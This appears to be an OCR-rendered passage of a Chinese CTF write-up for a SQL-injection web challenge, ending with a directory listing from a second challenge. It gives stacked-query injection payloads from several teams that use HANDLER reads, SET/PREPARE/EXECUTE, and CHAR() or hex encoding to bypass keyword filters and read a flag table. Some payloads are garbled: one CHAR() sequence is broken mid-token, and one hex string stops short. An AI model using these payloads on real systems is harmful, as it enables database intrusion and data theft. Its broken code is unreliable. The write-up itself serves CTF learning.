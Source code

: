 查询`inject=1`得到:

```php
array(1) {
[0]=>
array(2) {
["flag"]=>
string(38) "flag{e06218d29a616199aa97f369d0404622}"
["id"]=>
string(1) "1"
}
}
```

#### handler read first

sixstars:

```sql
?inject=1'; do sleep(5);-- 
?inject=1'; show tables;-- 
?inject=1; handler `1919810931114514` open as hh; handler hh read first;-- 
```

#### set prepare

FlappyPig: 过滤了union select，没办法跨表，但是可以堆叠查询，那么猜测是⽤mysqli_multi_query()函数进⾏
sql语句查询的，也就可以使⽤ 预处理：

```sql
set @sql = concat('create table ',newT,' like ',old); prepare s1 from @sql; execute s1; 
```

最后由于表名是数字表名所以要加上反引号`\``, Payload:

```bash
1';set%0a@s=concat(CHAR(115),CHAR(101),CHAR(108),CHAR(101),CHAR(99),CHAR(116), CHAR(32),CHAR(102),CHAR(108),CHAR(97),CHAR(103),CHAR(32),CHAR(102),CHAR(114),C HAR(111),CHAR(109),CHAR(32),CHAR(96),CHAR(49),CHAR(57),CHAR(49),CHAR(57),CHAR( 56),CHAR(49),CHAR(48),CHAR(57),CHAR(51),CHAR(49),CHAR(49),CHAR(49),CHAR(52),CH AR(53),CHAR(49),CHAR(52),CHAR(96),CHAR(59));PREPARE%0as2%0aFROM%0a@s;EXECUTE%0 as2;--+
```

#### 预处理 + hex

网站是用 pdo 连的数据库，因此允许多语句执行，可以用 `SET PREPARE` 绕过 strstr 和 preg_match 的检查，Payload 如下：

eee：

```sql
// enhex('select flag from supersqli.1919810931114514')
1';SET @a:=0x73656c65637420666c61672066726f6d20737570657273716c692;prepare s from @a; execute s;# 
```

### 强网先锋-上单

```c
Index of /1
[ICO]   Name            Last modified      Size	   Description
----------------------------------------------------------------
[PARENTDIR]	Parent Directory 	 
[TXT]   LICENSE.txt     2019-04-03 15:08   1.8K	 
[   ]   README.md       2019-04-03 15:08   5.6K	 
[   ]   build.php       2019-04-03 15:08   1.1K	 
[   ]   composer.json   2019-04-03 15:08   942	 
[   ]   composer.lock   2019-04-03 15:08   18K	 
[DIR]   extend/         2019-04-02 20:58    -	 
[DIR]   public/         2019-04-03 15:08    -	 
[DIR]   runtime/        2019-04-02 20:58    -	 
[   ]   think           2019-04-03 15:08   753	 
[DIR]   vendor/         2019-04-02 20:58    -	 
```